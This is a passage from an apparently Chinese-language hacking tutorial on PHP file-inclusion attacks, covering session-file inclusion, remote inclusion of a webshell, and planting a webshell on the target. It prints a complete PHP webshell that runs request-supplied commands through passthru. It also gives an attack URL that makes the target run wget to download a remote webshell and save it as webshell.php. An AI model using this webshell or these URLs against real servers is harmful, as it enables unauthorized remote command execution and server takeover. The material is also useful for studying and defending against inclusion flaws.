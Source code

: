 这部分需要攻击者能够控制部分Session文件的内容。PHP默认生成的Session文件一般存放在/tmp目录下，格式为sess_[your phpsessid value]，有时候也有可能在/var/lib/php5之类的，在此之前建议先读取配置文件。在某些特定的情况下如果你能够控制session的值，也许你能够获得一个shell

![](https://ws1.sinaimg.cn/large/006Vib6xly1fpaemni2ukj30xy051whv.jpg)

info布尔值(b)为1；userid长度(s)为1，值为1

### 5. 远程包含可运行的php木马

如果目标主机的`allow_url_fopen=On`（默认是激活的，没几个人会修改），我们就可以利用其他url上的一个包含php代码的webshell来直接运行，比如，先写一段运行命令的php代码，cmd.php／cmd.txt（后缀不重要，只要内容为php就好了，这也是文件包含漏洞十分厉害的一个地方，但是url中的cmd参数需要&来连接）

```php
<?php
  if(get_magic_quotes_gpc()){
    $_REQUEST["cmd"] = stripslashes($_REQUEST["cmd"]); //去掉转义字符（可去掉字符串中的反斜线字符）
  }
  ini_set("max_execution_time", 0); //设定针对这个文件的执行时间，0为不限制
  echo "start----------"; //打印的返回的开始提示信息
  passthru($_REQUEST["cmd"]); //运行cmd指定的命令
  echo "----------end"; //打印的返回的结束提示信息
?>
```

![](https://ws1.sinaimg.cn/large/006Vib6xly1fpb3rvvhy2j30y004ujuy.jpg)

### 6. 包含上传文件的php文件

#### 使用wget命令来下载一个webshell

wget中有一个参数`-O(-output-document=FILE，把文档写到FILE文件中)`

我们需要在可以通过http或者ftp等可以访问的地方放置一个包含php代码等webshell，比如`http://example.com/webshell.txt`

然后我们执行如下的url：

`http://112.74.35.205/test.php?file=http://112.74.35.205/cmd.php?cmd=wget http://112.74.35.205/webshell.txt -O webshell.php`

如果当前目录可写，我们就能得到一个叫做webshell.php的webshell了

执行之前

![](https://ws1.sinaimg.cn/large/006Vib6xly1fpcoxta0iwj30y103tgp9.jpg)

执行之后

![](https://ws1.sinaimg.cn/large/006Vib6xly1fpcoxta0iwj30y103tgp9.jpg)

#### 使用文件来创建

前面的wget可能会遇到当前目录不可写的情况，或者目标主机没安装或者禁用了这个命令，怎么办呢？

我们还可以包含一个创建文件的php脚本

在写脚本之前，我们可以先利用之前的包含的命令执行脚本来查看一下当前目录下的权限，找一个能够写入的文件夹
